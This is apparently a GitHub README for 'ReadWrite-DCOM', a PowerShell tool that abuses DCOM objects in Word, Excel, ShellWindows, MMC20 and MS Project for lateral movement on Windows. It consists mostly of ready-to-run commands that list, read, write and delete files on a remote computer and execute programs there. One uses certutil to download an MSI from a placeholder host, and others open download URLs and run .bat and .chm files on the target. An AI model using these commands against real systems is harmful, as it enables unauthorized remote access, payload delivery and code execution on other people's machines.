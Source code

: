 ## ReadWrite-DCOM

Several lateral movement techniques using DCOM were discovered in the past.  Most of the existing techniques focus on executing commands or VBScript.

ReadWrite-DCOM introduce a couple more use cases by leveraging DCOM. For example, ones can read/write files via Word/Excel COM object, and list directory via ShellWindows COM object on remote computer.

## Read

List a directory on target computer

```powershell
PS> Invoke-ReadWriteDCOM -Action List -ComputerName 127.0.0.1 -TargetPath C:\Temp
```

Read a text file on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Read -ComputerName 127.0.0.1 -TargetPath C:\Temp\comsetup.log
```



## Write 

Write a text file on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Write -ComputerName 127.0.0.1 -TargetPath C:\Temp\run.bat -Text "cmd.exe /c calc"
PS> Invoke-ReadWriteDCOM -Action Write -ComputerName 127.0.0.1 -TargetPath C:\Temp\target.txt -LocalFile C:\Users\Public\myfile.txt -AppendFileEnd
```

Delete a file on target computer i.e, move a file to recycle bin

```	powershell
PS> Invoke-ReadWriteDCOM -Action Delete -ComputerName 127.0.0.1 -TargetPath C:\Temp\comsetup.log
```



## Execute

Execute a program on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Exec -Method ShellBrowserWindow -ComputerName 127.0.0.1 -TargetPath C:\Windows\System32\certutil.exe -Args "-urlcache -f `"https://X.X.X.X/in.msi`" C:\temp\in.msi"
```

Three methods were implemented:

- ShellExecute from ShellBrowserWindow - by Matt Nelson
- InvokeVerbEx from ShellWindows
- ExecuteShellCommand  from MMC20.Application - by Matt Nelson

Remark: The second and third method would pop-up a prompt on target computer


## References

* https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
* https://www.cybereason.com/blog/dcom-lateral-movement-techniques


## MISC

Open a URL link from various application

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("Word.Document", "127.0.0.1")).FollowHyperlink("https://XXX/download")
PS> 
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "127.0.0.1")).Document.application.Open("https://XXX/download")
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("InternetExplorer.Application","127.0.0.1")).Navigate("https://XXX/download")
```

Execute Compiled HTML Help file

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "127.0.0.1")).Help("C:\temp\run.chm")
```

Execute file with MS Project

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("MSProject.Application", "127.0.0.1")).OpenBrowser("file:///C:/Windows/System32/calc.exe")
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("MSProject.Application", "127.0.0.1")).FollowHyperlink("file:///C:/temp/run.bat")
```

